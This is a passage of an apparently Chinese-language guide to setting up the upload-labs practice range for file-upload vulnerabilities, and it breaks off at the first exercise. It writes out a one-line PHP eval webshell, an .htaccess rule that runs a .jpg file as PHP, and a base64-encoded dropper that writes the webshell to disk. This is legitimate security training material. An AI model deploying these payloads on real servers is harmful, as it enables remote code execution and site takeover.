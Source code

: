 一个想帮你总结所有类型的上传漏洞的靶场

## 1. Install

安装依赖

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y apache2 mariadb-server mariadb-client php php-mysqli
```

Clone

```
┌──(sec@debian)-[~]
└─$ sudo -E git clone https://github.com/c0ny1/upload-labs.git /var/www/html/upload-labs
```

准备

`webshell.php`

```php
<?php @eval($_POST[um931o]);?>
```

> 可执行任意代码的 PHP 文件

`.htaccess`

```htaccess
<FilesMatch "webshell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```

> 此配置文件将同一文件夹下名为 `webshell.jpg` 的文件视为 PHP 文件来执行

`shell.php`

```php
<?php
$code='PD9waHAgQGV2YWwoJF9QT1NUW3VtOTMxb10pOz8+';
$myfile = fopen("shell.php", "w");
fwrite($myfile, base64_decode($code));
fclose($myfile);
?>
```

> 将用 base64 编码的一句话木马解码并写入到生成的 shell.php 文件

## 2. use

访问

> http://127.0.0.1:60080/upload-labs/

### 2.1. Pass-01

